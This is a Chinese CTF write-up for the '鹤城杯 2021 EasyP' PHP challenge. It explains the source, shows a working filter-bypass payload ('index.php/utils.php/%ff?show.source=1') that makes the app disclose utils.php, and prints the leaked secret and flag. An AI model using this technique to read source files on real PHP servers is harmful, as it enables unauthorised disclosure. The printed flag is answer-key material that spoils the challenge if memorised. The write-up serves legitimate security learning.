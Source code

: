 #PHP

```php
 <?php
include 'utils.php';

if (isset($_POST['guess'])) {
    $guess = (string) $_POST['guess'];
    if ($guess === $secret) {
        $message = 'Congratulations! The flag is: ' . $flag;
    } else {
        $message = 'Wrong. Try Again';
    }
}

if (preg_match('/utils\.php\/*$/i', $_SERVER['PHP_SELF'])) {
    exit("hacker :)");
}

if (preg_match('/show_source/', $_SERVER['REQUEST_URI'])){
    exit("hacker :)");
}

if (isset($_GET['show_source'])) {
    highlight_file(basename($_SERVER['PHP_SELF']));
    exit();
}else{
    show_source(__FILE__);
}
?>
```

开始的 `$secret` 无从得知

`$_SERVER` : `$_SERVER`  是一个包含了诸如头信息（header）、路径（path）、以及脚本位置（script locations）等信息的  array。
`PHP_SELF` : 当前执行脚本的文件名
`REQUEST_URI` : URI 用来指定要访问的页面。例如 “`/index.html`”
详见 [PHP: $\_SERVER - Manual](https://www.php.net/manual/zh/reserved.variables.server.php)

basename — 返回路径中的文件名部分
详见 [PHP: basename - Manual](https://www.php.net/manual/zh/function.basename.php)

第一个正则 : 匹配 `utils.php/` 后面加任意字符，用非 ASCII 字符绕过
第二个正则 : 匹配 `show_source` 可以考虑用 加号（`+`） 左中括号（`[`） 空格（` `） 点号（`.`）绕过

因为原本页面时`index.php`

所以最终 payload：

```url
index.php/utils.php/%ff?show.source=1
```

```php
`<?php
$secret = "nssctfrtdfgvhbjdas";
$flag = 'NSSCTF{70cead77-6ae5-4e6e-b998-afce675a92ac}';   `
```

参考链接：
[[鹤城杯 2021]EasyP\_偶尔躲躲乌云 334 的博客-CSDN 博客](https://blog.csdn.net/qq_62046696/article/details/124749646)
